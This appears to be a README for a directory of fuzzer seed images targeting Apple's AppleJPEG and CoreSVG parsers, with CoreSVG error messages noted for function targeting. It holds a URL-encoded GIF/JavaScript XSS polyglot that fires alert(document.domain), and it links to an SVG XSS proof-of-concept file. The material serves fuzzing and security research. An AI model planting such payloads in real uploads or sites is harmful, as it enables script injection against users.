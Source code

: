 # Images Directory for Seeding Fuzzer
## Looking for Errors
### Example Instrumented module AppleJPEG
PoC: xss.gif
#### Sample 1
PoC: xss.gif
```
GIF89a%3a%2f%2a%3c%73%76%67%2f%6f%6e%6c%6f%61%64%3d%61%6c%65%72%74%28%31%29%3e%2a%2f%3d%61%6c%65%72%74%28%64%6f%63%75%6d%65%6e%74%2e%64%6f%6d%61%69%6e%29%2f%2f%3b
```
##### Nugget for Function Targeting
```
Failed to parse viewBox for node name "svg"CoreSVG: Error: SVGShapeNode: Error parsing atom: cx
```
### Sample 2
PoC: https://raw.githubusercontent.com/xsscx/Commodity-Injection-Signatures/master/svg/xss-xml-svg-font-example-poc-7.svg
##### Nugget for Function Targeting
```
Failed to parse viewBox for node name "svg"CoreSVG: Error: SVGShapeNode: Error parsing atom: cy
```
